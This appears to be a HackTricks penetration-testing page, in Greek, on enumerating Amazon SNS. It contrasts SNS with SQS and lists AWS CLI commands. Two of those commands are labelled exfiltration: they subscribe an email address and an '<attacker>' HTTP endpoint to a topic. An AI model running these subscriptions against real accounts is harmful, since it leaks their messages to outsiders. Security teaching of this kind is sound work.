 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Η Υπηρεσία Απλών Ειδοποιήσεων της Amazon (Amazon SNS) περιγράφεται ως μια **πλήρως διαχειριζόμενη υπηρεσία μηνυμάτων**. Υποστηρίζει τόσο **επικοινωνία εφαρμογής προς εφαρμογή** (A2A) όσο και **επικοινωνία εφαρμογής προς άτομο** (A2P).

Τα κύρια χαρακτηριστικά για την επικοινωνία A2A περιλαμβάνουν **μηχανισμούς δημοσίευσης/εγγραφής (pub/sub)**. Αυτοί οι μηχανισμοί εισάγουν **θέματα**, κρίσιμα για την ενεργοποίηση υψηλής απόδοσης, **βασισμένης σε push, επικοινωνίας πολλών προς πολλούς**. Αυτό το χαρακτηριστικό είναι ιδιαίτερα ευνοϊκό σε σενάρια που περιλαμβάνουν κατανεμημένα συστήματα, μικροϋπηρεσίες και αρχιτεκτονικές serverless που βασίζονται σε γεγονότα. Εκμεταλλευόμενα αυτά τα θέματα, τα συστήματα εκδότη μπορούν να διανέμουν αποτελεσματικά μηνύματα σε ένα **ευρύ φάσμα συστημάτων συνδρομητών**, διευκολύνοντας ένα μοτίβο επικοινωνίας fanout.

### **Διαφορά με SQS**

**SQS** είναι μια **υπηρεσία βασισμένη σε ουρές** που επιτρέπει την επικοινωνία σημείου προς σημείο, διασφαλίζοντας ότι τα μηνύματα επεξεργάζονται από έναν **μοναδικό καταναλωτή**. Προσφέρει **τουλάχιστον μία παράδοση**, υποστηρίζει κανονικές και FIFO ουρές, και επιτρέπει τη διατήρηση μηνυμάτων για επαναλήψεις και καθυστερημένη επεξεργασία.\
Από την άλλη πλευρά, **SNS** είναι μια **υπηρεσία βασισμένη σε δημοσίευση/εγγραφή**, επιτρέποντας **επικοινωνία ενός προς πολλούς** μέσω της μετάδοσης μηνυμάτων σε **πολλούς συνδρομητές** ταυτόχρονα. Υποστηρίζει **διάφορες διευθύνσεις συνδρομής όπως email, SMS, λειτουργίες Lambda και HTTP/HTTPS**, και παρέχει μηχανισμούς φιλτραρίσματος για στοχευμένη παράδοση μηνυμάτων.\
Ενώ και οι δύο υπηρεσίες επιτρέπουν την αποσύνδεση μεταξύ των συστατικών σε κατανεμημένα συστήματα, το SQS εστιάζει στην επικοινωνία μέσω ουρών, ενώ το SNS τονίζει τα μοτίβα επικοινωνίας που βασίζονται σε γεγονότα και fan-out.

### **Αριθμητική**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Σημειώστε ότι αν το **θέμα είναι τύπου FIFO**, μόνο οι συνδρομητές που χρησιμοποιούν το πρωτόκολλο **SQS** μπορούν να χρησιμοποιηθούν (HTTP ή HTTPS δεν μπορούν να χρησιμοποιηθούν).
>
> Επίσης, ακόμη και αν το `--topic-arn` περιέχει την περιοχή, βεβαιωθείτε ότι έχετε καθορίσει τη σωστή περιοχή στο **`--region`** ή θα λάβετε ένα σφάλμα που δείχνει ότι δεν έχετε πρόσβαση, αλλά το πρόβλημα είναι η περιοχή.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
